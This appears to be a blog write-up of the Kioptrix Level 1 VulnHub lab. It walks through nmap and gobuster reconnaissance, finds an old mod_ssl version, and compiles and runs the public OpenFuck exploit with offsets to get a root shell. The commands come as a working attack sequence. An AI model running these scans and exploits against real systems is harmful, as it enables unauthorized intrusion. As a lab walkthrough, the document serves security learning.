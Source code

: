 ```yaml
---
layout: post
title: Kioptrix Level 1
---
```

[Kioptrix Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/#)

## Find IP of box
Our IP: x.x.x.49

```nmap -T5 <LHOST>/24```

Kioptrix is running on: x.x.x.104  

## Init NMap Scan

```nmap -sC -sV -oA nmap x.x.x.104```

 - Default Scripts
 - Service Detection
 - Output all formats

![Initial NMap Scan](/images/KioptrixL1/Nmap1.JPG)

We have 6 ports open: 22 (SSH), 80 (HTTP), 111 (rpcbind), 139 (netbios-ssn samba), 443 (ssl/https), 1024 (status)

I'm going to start by looking at the HTTP port

## HTTP - Port 80
### Gobuster

```gobuster dir -u http://x.x.x.104 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster.txt -x php,html,txt,xml```

![Gobuster Results](/images/KioptrixL1/Gobuster1.JPG)

### Dirbuster
Ran gui Dirbuster in background for recursive search

Gave plenty more results but not much important info to be found

### Searchsploit

```searchsploit mod_ssl```

< 2.8.7 stands out as our version is 2.8.4

There are 3 results so a quick google of the name (OpenFuck) reveals the version we need is 47080.c (ExploitDB)

Reading through the exploit reveals we need to explain libssl-dev

```apt-get install libssl-dev```

It also explains how to compile

```gcc -o exploit 47080.c -lcrypto```

Now we need to find out how to use it properly, so run the script

```./exploit```

It presents us with:

```
: Usage: ./script target box [port] [-c N

  target - supported box eg: 0x00
  box - hostname or IP address
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know
```

and a long list of supported offsets to place instead of 'target'

Ours is likely to be either 0x6a or 0x6b so we'll try 0x6a first

```
./exploit 0x6a x.x.x.104 -c 40
```


Unsucessful

```./exploit 0x6b x.x.x.104 -c 40```

It Works! We are now root

Note: It seemingly freezes for a bit by not producing an output but if we type in a command such as ```id``` and we get an output which shows we have a shell.

Note 2: If the above command doesn't work (i.e reaches ```spawning shell ... Good Bye!``` ), try deleting the compiled script and recompile and it should work fine

### TTY shell

unnecessary step but would prove useful if we had any other steps to perform.

```/bin/bash -i```


